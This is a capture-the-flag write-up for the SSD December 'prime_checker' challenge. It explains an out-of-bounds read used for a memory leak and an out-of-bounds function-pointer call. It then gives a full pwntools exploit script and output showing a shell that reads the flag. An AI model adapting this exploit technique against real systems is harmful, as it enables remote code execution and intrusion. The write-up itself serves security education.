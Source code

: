 # SSD December Challenge (by Juno Im of [theori](https://theori.io) - [@junorouse](https://twitter.com/junorouse))

## Introduction

This program (prime_checker) is a simple binary that tells you if the input value (integer) is a prime number. There are 3 features in the main function,
"Check value Options" that set parameters, "Show results" that show , and "Exit" that you can exit the program.

### Check value Options

```c
int printSubMenu()
{
  puts("1. Make Req");
  puts("2. View Req");
  puts("3. Set Num");
  puts("4. Set Type");
  puts("5. Send Req");
  puts("6. Exit");
  return putchar('>');
}
```

#### Vulnerability A

The following is the code when you choose the "2. View Req" feature:

```c
  int index;
  
  ...
  
    else if ( choice == 2 )
    {
      printf("Index to view: ");
      fgets(&s, 10, stdin);
      index = atoi(&s);
      if ( index >= requestCount )                    [1]
      {
        puts("Invalid Index");
      }
      else
      {
        printf("Req #%d\n", index);
        printf("Number: %lld\n", Numbers[index].value_0);
        printf("Type: %d\n", (LODWORD(Numbers[index].type) | HIDWORD(Numbers[index].type)));
      }
```

The part indicated by [1] does not perform integer overflow checks against index. This allows to induce arbitrary memory leak by accessing with negative index. 

### Show results

The code to show results is as follows:

```c

    if ( result != 2 )
      break;
    printf("Index to view: ");
    fgets(&s, 10, stdin);
    index = atoi(&s);
    if ( index < 0 || index >= inputCount )       [2]
      puts("Invalid index");
    (RequestQueue[index].funcPtr)(index);
  }
```

It gets an element of `RequestQueue` by entered index and call its function pointer

#### Vulnerability B

In [2], the check is also perfomed to ensure that the index is not out-of-bound.
On the other hand, when you entered out of bound index it just prints "Invalid Index" and do nothing.
Therefore, you can call function pointer at arbitrary address((0x18 * index) + 0x8; 0x8 is function pointer offset) through out-of-bound access.

# Exploit

You can leak the PIE/Library base via vulnerability A, however you don't know stack/heap address which stores our input data from fgets / set value feature.
But you can easily figure out that the offset difference between the PIE base and the thread stack is always (90%) same through debugging.

The function which called inside the pthread follows:

```asm
.text:0000000000000F5F ; __unwind {
.text:0000000000000F5F                 push    rbp
.text:0000000000000F60                 mov     rbp, rsp
.text:0000000000000F63                 sub     rsp, 20h
.text:0000000000000F67                 mov     [rbp+var_18], rdi ; our lld input via set value feature
.text:0000000000000F6B                 mov     eax, cs:IfIsLastThenSleep
.text:0000000000000F71                 cmp     eax, 1
.text:0000000000000F74                 jnz     short loc_F8C
.text:0000000000000F76                 lea     rdi, aLetSTakeA2Seco ; "Let's take a 2. second moment of silenc"...
.text:0000000000000F7D                 call    puts
.text:0000000000000F82                 mov     edi, 2          ; seconds
.text:0000000000000F87                 call    sleep
.text:0000000000000F8C
.text:0000000000000F8C loc_F8C:                                ; CODE XREF: calcNoobIsPrime+15↑j
```

- `rbp-var_18 - PIE base` == -695656

## Script

```python
#!/usr/bin/env python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
context.log_level = 'error'

# r = process(['./ld-2.23.so', './checker'], env={'LD_PRELOAD': './libc-2.23.so ./libpthread-2.23.so'})
while True:
    try:
        r = remote('0', 2324)
        r.sendlineafter('>', '1') # check value options
        # context.log_level = 'debug'

        # vuln A
        # -276 => 0x555555554734; symbol version table
        r.sendlineafter('>', '2') # view req
        r.sendlineafter(':', '-276')
        r.recvuntil('Number: ')
        pie_base = int(r.recvuntil('\n').strip()) - 0x734
        print 'pie_base: 0x%X' % pie_base

        r.sendlineafter('>', '1') # make req
        r.sendlineafter('>', '3') # set number
        r.sendlineafter(':', str(pie_base + 0xf32)) # rip
        r.sendlineafter('>', '4') # set type
        r.sendlineafter(':', '5') # is last | type(1)
        r.sendlineafter('>', '5') # go

        # vuln B
        r.sendlineafter('>', '2')
        r.sendlineafter(':', '-695656') # rbp-var_18 - PIE base
        r.recvuntil('\n')
        r.sendline('id')
        r.recv(4096)

        r.interactive()
        break
    except:
        r.close()
        continue
```


```
➜  binary-2020-12 git:(master) ✗ ./solve.py
pie_base: 0x7FCB120C2000
pie_base: 0x7F34E58B9000
pie_base: 0x7EFC71420000
pie_base: 0x7F4960BE2000
pie_base: 0x7F1DC1750000
pie_base: 0x7F45F7D75000
pie_base: 0x7FD66633E000
pie_base: 0x7F51C09CB000
pie_base: 0x7F430E918000
pie_base: 0x7F16D5D74000
$ ls
checker
flag
helper.sh
launch.sh
ld-2.23.so
libc-2.23.so
libpthread-2.23.so
$ cat flag
S3D{threads_are_so_fun!}
$  
```
